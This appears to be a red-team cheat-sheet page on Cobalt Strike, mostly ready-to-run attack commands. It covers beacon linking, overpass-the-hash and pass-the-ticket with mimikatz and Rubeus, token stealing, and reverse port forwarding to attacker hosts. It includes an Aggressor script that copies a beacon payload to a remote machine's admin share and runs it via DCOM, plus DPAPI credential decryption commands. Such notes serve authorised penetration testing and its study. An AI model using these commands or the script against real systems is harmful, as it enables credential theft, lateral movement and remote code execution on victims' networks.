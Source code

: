 # Cobalt Strike

- [https://reconshell.com/list-of-awesome-cobaltstrike-resources/](https://reconshell.com/list-of-awesome-cobaltstrike-resources/)
- [https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet](https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet)




## Malleable C2 Profiles

- [https://blog.zsec.uk/cobalt-strike-profiles/](https://blog.zsec.uk/cobalt-strike-profiles/)
- [https://github.com/rsmudge/Malleable-C2-Profiles](https://github.com/rsmudge/Malleable-C2-Profiles)




## Aggressor Scripts

- [https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/agressor_script.htm](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/agressor_script.htm)
- [https://chowdera.com/2021/02/20210204190220156W.html](https://chowdera.com/2021/02/20210204190220156W.html)




## Community Kit

- [https://cobalt-strike.github.io/community_kit/](https://cobalt-strike.github.io/community_kit/)
- [https://github.com/penetrarnya-tm/WeaponizeKali.sh/blob/main/cs/README.md](https://github.com/penetrarnya-tm/WeaponizeKali.sh/blob/main/cs/README.md)




## P2P Beacons

Beacon TCP and Beacon SMB are Peer-to-Peer beacons which means they're used to chain a connection to an existent beacon. They act like bind shells and waits for the attacker to connect to them.

Connect to a TCP beacon:

```
beacon> connect <IP> <PORT>
```

Connect to an SMB beacon:

```
beacon> link <IP>
```




## Overpass-the-Hash

More opsec PtH than builtin `pth` command (which does the Mimikatz `sekurlsa::pth` thing with named pipe impersonation):

```
beacon> mimikatz sekurlsa::pth /user:snovvcrash /domain:megacorp.local /ntlm:fc525c9683e8fe067095ba2ddc971889
beacon> steal_token 1337
```

Same with Rubeus (must be in elevated context):

```
beacon> execute-assembly Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe
beacon> steal_token 1337
```

Use Rubeus with lower privileges:

```
beacon> execute-assembly Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /nowrap /opsec

PS > [System.IO.File]::WriteAllBytes("C:\Windows\Tasks\tgt.kirbi", [System.Convert]::FromBase64String("<BASE64_TICKET>"))
Or
$ echo -en "<BASE64_TICKET>" | base64 -d > tgt.kirbi

beacon> run klist
Or
beacon> execute-assembly Rubeus.exe klist

beacon> make_token MEGACORP\snovvcrash dummy_Passw0rd!
beacon> kerberos_ticket_use C:\Windows\Tasks\tgt.kirbi
```




## Pass-the-Ticket

Create a sacrificial process, import the TGT into its logon session and steal its security token:

```
beacon> execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
beacon> execute-assembly Rubeus.exe ptt /luid:0x1337 /ticket:<BASE64_TICKET>
beacon> beacon> steal_token 1337
```




## Pivoting

Make any traffic hitting port **8443** on Victim to be redirected to **10.10.13.37** on port **443** (traffic flows through the Team Server):

```
beacon> rportfwd 8443 10.10.13.37 443
```

Make any traffic hitting port **8080** on Victim to be redirected to **localhost:8080** on Attacker (traffic flows through the CS client):

```
beacon> rportfwd_local 8080 127.0.0.1 80
```

Extending `jump` with [Invoke-DCOM.ps1](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module_source/lateral_movement/Invoke-DCOM.ps1):

```powershell
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via this powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName $+ $2 $+ -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```

Forward SOCKS server's port from team server to the client:

```
beacon> socks 1080
$ ssh -tt -v -L 9050:localhost:1080 root@teamserver
```




## Credentials



### DPAPI

List credential blobs:

```
beacon> ls C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials
```

List vault credentials:

```
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
beacon> mimikatz vault::list
```

Check which master keys correspond to credential blobs (look for **guidMasterKey** field with GUID):

```
beacon> mimikatz dpapi::cred /in:C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials\<BLOB>
```

The master key is stored here:

```
beacon> ls C:\Users\snovvcrash\AppData\Roaming\Microsoft\Protect\<SID>
```

Decrypt the master key via RPC on the Domain Controller and show it:

```
beacon> mimikatz dpapi::masterkey /in:C:\Users\snovvcrash\AppData\Roaming\Microsoft\Protect\<SID> /rpc
```

Decrypt the blob with decrypted master key:

```
beacon> mimikatz dpapi::cred /in:C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials\<BLOB> /masterkey:<MASTERKEY>
```




## Evasion



### Sleep Mask

{% content-ref url="/redteam/maldev/code-injection/README.md#shellcode-in-memory-fluctuation-obfuscate-and-sleep" %}
[README.md](README.md)
{% endcontent-ref %}

- [https://www.elastic.co/blog/detecting-cobalt-strike-with-memory-signatures](https://www.elastic.co/blog/detecting-cobalt-strike-with-memory-signatures)
- [https://adamsvoboda.net/sleeping-with-a-mask-on-cobaltstrike/](https://adamsvoboda.net/sleeping-with-a-mask-on-cobaltstrike/)
